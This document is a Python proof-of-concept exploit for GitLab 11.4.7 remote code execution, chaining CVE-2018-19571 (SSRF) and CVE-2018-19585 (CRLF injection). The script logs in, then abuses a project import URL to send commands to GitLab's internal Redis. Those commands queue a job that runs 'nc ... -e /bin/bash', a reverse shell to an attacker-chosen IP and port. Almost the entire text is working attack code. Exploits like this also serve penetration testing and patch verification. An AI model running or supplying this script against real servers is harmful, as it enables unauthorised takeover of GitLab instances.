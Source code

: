 EXP
---

    # Exploit Title: GitLab 11.4.7 RCE (POC)
    # Date: 24th December 2020
    # Exploit Author: Norbert Hofmann
    # Exploit Modifications: Sam Redmond, Tam Lai Yin
    # Original Author: Mohin Paramasivam
    # Software Link: https://gitlab.com/
    # Environment: GitLab 11.4.7, community edition
    # CVE: CVE-2018-19571 + CVE-2018-19585

    #!/usr/bin/python3

    import requests
    from bs4 import BeautifulSoup
    import argparse
    import random


    parser = argparse.ArgumentParser(description='GitLab 11.4.7 RCE')
    parser.add_argument('-u', help='GitLab Username/Email', required=True)
    parser.add_argument('-p', help='Gitlab Password', required=True)
    parser.add_argument('-g', help='Gitlab URL (without port)', required=True)
    parser.add_argument('-l', help='reverse shell ip', required=True)
    parser.add_argument('-P', help='reverse shell port', required=True)
    args = parser.parse_args()

    username = args.u
    password = args.p
    gitlab_url = args.g + ":5080"
    local_ip = args.l
    local_port = args.P

    session = requests.Session()

    # Get Authentication Token
    r = session.get(gitlab_url + "/users/sign_in")
    soup = BeautifulSoup(r.text, features="lxml")
    token = soup.findAll('meta')[16].get("content")
    print(f"[+] authenticity_token: {token}")

    login_form = {
        "authenticity_token": token,
        "user[login]": username,
        "user[password]": password,
        "user[remember_me]": "0"
    }
    r = session.post(f"{gitlab_url}/users/sign_in", data=login_form)

    if r.status_code != 200:
        exit(f"Login Failed:{r.text}")

    # Create project
    import_url = "git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2F.git"
    project_name = f'project{random.randrange(1, 10000)}'
    project_url = f'{gitlab_url}/{username}'

    print(f"[+] Creating project with random name: {project_name}")

    form = """\nmulti
        sadd resque:gitlab:queues system_hook_push
        lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port} -e /bin/bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
        exec
        exec
        exec\n"""

    r = session.get(f"{gitlab_url}/projects/new")
    soup = BeautifulSoup(r.text, features="lxml")

    namespace_id = soup.find(
        'input', {'name': 'project[namespace_id]'}).get('value')

    project_token = soup.findAll('meta')[16].get("content")
    project_token = project_token.replace("==", "%3D%3D")
    project_token = project_token.replace("+", "%2B")

    payload = f"utf8=%E2%9C%93&authenticity_token={project_token}&project%5Bimport_url%5D={import_url}{form}&project%5Bci_cd_only%5D=false&project%5Bname%5D={project_name}&project%5Bnamespace_id%5D={namespace_id}&project%5Bpath%5D={project_name}&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0"

    cookies = {
        'sidebar_collapsed': 'false',
        'event_filter': 'all',
        'hide_auto_devops_implicitly_enabled_banner_1': 'false',
        '_gitlab_session': session.cookies['_gitlab_session'],
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': f'{gitlab_url}/projects',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '398',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
    }

    print("[+] Running Exploit")
    r = session.post(
        gitlab_url+'/projects', data=payload, cookies=cookies, headers=headers, verify=False)
    if "The change you requested was rejected." in r.text:
        exit('Exploit failed, check input params')

    print('[+] Exploit completed successfully!')